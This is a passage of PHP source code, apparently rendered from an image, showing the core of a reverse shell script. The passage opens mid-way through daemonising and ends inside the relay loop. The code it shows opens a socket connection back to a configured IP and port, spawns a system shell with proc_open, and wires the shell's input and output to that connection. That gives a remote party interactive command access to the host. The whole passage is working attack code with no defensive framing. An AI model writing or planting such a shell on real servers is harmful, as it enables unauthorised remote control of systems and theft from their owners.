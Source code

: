 ```
	if (posix_setsid() == -1) {  
		printit("Error: Can't setsid()");  
		exit(1);  
	}  
  
	$daemon = 1;  
} else {  
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");  
}  
  
// Change to a safe directory  
chdir("/");  
  
// Remove any umask we inherited  
umask(0);  
  
//  
// Do the reverse shell...  
//  
  
// Open reverse connection  
$sock = fsockopen($ip, $port, $errno, $errstr, 30);  
if (!$sock) {  
	printit("$errstr ($errno)");  
	exit(1);  
}  
  
// Spawn shell process  
$descriptorspec = array(  
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from  
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to  
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to  
);  
  
$process = proc_open($shell, $descriptorspec, $pipes);  
  
if (!is_resource($process)) {  
	printit("ERROR: Can't spawn shell");  
	exit(1);  
}  
  
// Set everything to non-blocking  
// Reason: Occsionally reads will block, even though stream_select tells us they won't  
stream_set_blocking($pipes[0], 0);  
stream_set_blocking($pipes[1], 0);  
stream_set_blocking($pipes[2], 0);  
stream_set_blocking($sock, 0);  
  
printit("Successfully opened reverse shell to $ip:$port");  
  
while (1) {  
	// Check for end of TCP connection  
	if (feof($sock)) {  
		printit("ERROR: Shell connection terminated");  
		break;  
	}  
  
	// Check for end of STDOUT  
	if (feof($pipes[1])) {  
		printit("ERROR: Shell process terminated");  
		break;  
	}  
  
```